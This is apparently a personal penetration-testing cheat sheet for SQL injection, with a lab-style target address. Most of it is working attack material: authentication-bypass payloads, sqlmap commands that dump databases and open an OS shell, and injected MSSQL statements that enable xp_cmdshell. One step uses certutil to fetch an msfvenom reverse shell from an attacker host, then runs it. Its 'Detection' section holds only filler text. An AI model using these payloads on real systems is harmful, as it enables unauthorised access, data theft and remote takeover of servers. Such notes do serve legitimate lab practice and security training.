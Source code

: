 ## Detection
bla bla

## Basic SQL injection
```
MySQL
Username: Administrator
Password: ' OR 1=1#

Username: admin' OR 1=1 -- -
Password: admin' OR 1=1 -- -
```

## SQLmap
Below example is a search engine on website for authenticated users:
```
# Use saved request from burp suite (RMB -> Save item)
sqlmap -r login.req

# URL to search:
# http://10.129.95.174/dashboard.php?search=ELI%27+OR+1%3D1%23

# basic scan to confirm vuln
sqlmap --url http://10.129.95.174/dashboard.php?search= --cookie="PHPSESSID=sessioncookie"

# dump data
sqlmap --url http://10.129.95.174/dashboard.php?search= --cookie="PHPSESSID=sessioncookie" --all

# try to get command execution
sqlmap --url http://10.129.95.174/dashboard.php?search= --cookie="PHPSESSID=sessioncookie" --os-shell
```

## SQLserver

### RCE
First let turn on the functionality to execute commands: **xp_cmdshell**
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

turns into

http://127.0.0.1/sql.php?param='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```
Download reverse shell (generated by msfvenom) and execute it
```
http://127.0.0.1/sql.php?param='; EXEC xp_cmdshell 'certutil -urlcache -f http://<Kali IP>:8081/shell.exe C:\Windows\Temp\shell.exe'; --

http://127.0.0.1/sql.php?param='; EXEC xp_cmdshell 'C:\Windows\Temp\shell.exe'; --
```
